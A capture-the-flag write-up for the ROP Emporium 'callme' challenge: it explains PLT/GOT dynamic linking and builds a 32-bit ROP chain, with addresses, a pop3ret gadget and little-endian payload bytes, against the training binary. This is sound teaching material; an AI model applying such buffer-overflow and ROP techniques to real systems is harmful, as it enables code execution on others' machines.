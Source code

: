 # CALLME Writeup

This challenge is based on the *Procedure Linkage Table (PLT)*. At static time (i.e., before executing) we do not know from the binary itself (i.e.,callme) the effective virtual addresses of the functions imported from external libs. The references to external symbols (e.g., functions) are resolved at runtime by the dynamic linker. Each external symbol has a corresponding placeholder (see .plt section of the elf) which points to an entry of the Global Offset Table (.got.plt section of the elf).

From the challenge we already know the following:
* at "high-level" we need to chain callme\_one, callme\_two and callme\_three exactly in this order.
* we need to pass the arguments (1,2,3) to each function, in the mentioned order.

## 32bit

### Prologue

From the _ret2win_ challenge we already know the size of the buffer and the payload we need to inject into it in order to make it overflow (44 bytes to overflow). Also, from the same challenge, we know that the vulnerable buffer is used by the _fgets_ call inside _pwnme_ function.

### Analysis

First of all, lets analyze the imported symbols in the callme32 binary with radare2:

```bash
rabin2 -i callme32
[Imports]
   1 0x00000000    WEAK  NOTYPE _ITM_deregisterTMCloneTable
   2 0x08048590  GLOBAL    FUNC printf
   3 0x080485a0  GLOBAL    FUNC fgets
   4 0x080485b0  GLOBAL    FUNC callme_three
   5 0x080485c0  GLOBAL    FUNC callme_one
   6 0x080485d0  GLOBAL    FUNC puts
   7 0x00000000    WEAK  NOTYPE __gmon_start__
   8 0x080485e0  GLOBAL    FUNC exit
   9 0x080485f0  GLOBAL    FUNC __libc_start_main
  10 0x08048600  GLOBAL    FUNC setvbuf
  11 0x08048610  GLOBAL    FUNC memset
  12 0x08048620  GLOBAL    FUNC callme_two
  13 0x00000000    WEAK  NOTYPE _Jv_RegisterClasses
  14 0x00000000    WEAK  NOTYPE _ITM_registerTMCloneTable
```
All of these symbols are resolved at runtime by the dynamic linker.
Reasoning about how dynamic linker resolves symbols and .plt section...
We can see the placeholders of the functions we are interested in from the disassembled binary (using IDA pro). As expected, the placeholders are stored in the .plt section:

![IDA-callme32-plt](img/callme32-0.png "IDA-callme32-plt")

### Build the ROP chain

Since these placeholders will be properly resolved at runtime by the dynamic linker we just need to call/reference them using the vaddrs given in the .plt.
So far we can build a piece of our ROP chain:

```bash
# vaddrs converted in little endian format (used by x86,x86_64 architectures)
call_one="\xc0\x85\x04\x08"
call_two="\x20\x86\x04\x08"
call_three="\xb0\x85\x04\x08"
# arguments of the function calls (little endia format)
one="\x01\x00\x00\x00"
two="\x02\x00\x00\x00"
three="\x03\x00\x00\x00"
# build current (incomplete) chain. remember: the stack uses a LIFO policy for its elements
call_one+one+two+three+
call_two+one+two+three+
call_three+one+two+three
# stack view
three
two
one
call_three
three
two
one
call_two
...
```
To complete our chain we need a proper ROP gadget: a set of asm instruction in the current binary which we will use as an handler to set up our environment and jump to the addresses we are interested in. Looking at the current chain, we need something that pops the arguments from the stack into the registers and then jumps to the current addr pointer by ESP (stack pointer). The latter is exactly what the _ret_ instruction does while the former can be achieved through several _pop \<register_name\>_ instructions. The ret instruction pops the current address from the top of the stack (ESP) into the EIP register and then jumps to the addr stored in EIP, effectively executing it. Luckily, we can use the _ropgadget_ feature of gdb-peda to check if there are common gadgets in our binary:

The result is:
```bash
ret = 0x8048562
popret = 0x8048579
pop2ret = 0x80488aa
pop3ret = 0x80488a9
pop4ret = 0x80488a8
addesp_12 = 0x8048576
addesp_16 = 0x80486a5
```

Uhm, the vaddr tagged as "pop3ret" seems interesting (pops 3 addresses from stack: 1,2,3 and then execs ret), lets inspect it with gdb:
```bash
80488a9:	5e                   	pop    %esi # pop $0x3 in ESI
80488aa:	5f                   	pop    %edi # pop $0x2 in EDI
80488ab:	5d                   	pop    %ebp # pop $0x1 in EBP
80488ac:	c3                   	ret    	# jmp to EIP, which contains the "call_X" vaddr
```
Bingo. Now, we need to understand where to insert this gadget in our chain.
It is easy if you think about what the gadget does and how the stack works. We would like end up with something like this on the stack:
```bash
0x3
0x2
0x1
rop_gadget
call_X_addr
```
So that when rop\_gadget is executed we get the following state:
```bash
ESI=0x3 # pop result
EDI=0x2 # pop result
EBP=0x1 # pop result
jump to call_X_addr # ret result
```

[Side Note:start]

Looking at the disassembled binary:
* The _puts@plt_ is the actual glibc call which implements (the "high-level") printf
* About envars:
```bash
LD_BIND_NOW=1
export LD_BIND_NOW
```
The envar is checked by the dynamic linker, it instructs the linker to resolve all the external references immediately before starting the execution of the program. This approach results in a slower initial execution of your binary because all the references have to be resolved before starting it. Anyway, subsequent calls to the resolved symbols will be faster cause the related got.plt table entries have already been filled with their addresses.

[Side Note:end]

### Execute the exploit

Wrapping-up, we have built the following ROP chain:
```bash
# vaddrs converted in little endian format (used by x86,x86_64 architectures)
call_one="\xc0\x85\x04\x08"
call_two="\x20\x86\x04\x08"
call_three="\xb0\x85\x04\x08"
# arguments of the function calls (little endian format)
one="\x01\x00\x00\x00"
two="\x02\x00\x00\x00"
three="\x03\x00\x00\x00"
# our ROP gadget (little endian format)
pop3ret="\xa9\x88\x04\x08"
# build current (incomplete) chain. remember: the stack uses a LIFO policy for its elements
call_one+pop3ret+one+two+three+
call_two+pop3ret+one+two+three+
call_three+pop3ret+one+two+three
```
Which you can better view in the script code shipped with this markdown file.

Result:
```bash
callme by ROP Emporium
32bits

Hope you read the instructions...
> ROPE{a_placeholder_32byte_flag!}
```

## 64bit

## Tools

* IDA pro: a multi-processor disassembler and debugger. The de-facto standard to dissassemble binaries
* [gdb-peda](https://github.com/longld/peda): a python extension for gdb. Useful to inspect binaries, search for patterns, gadgets, generate shellcodes, etc.
* [radare2](https://github.com/radare/radare2): another disassembler, binaries analyzer
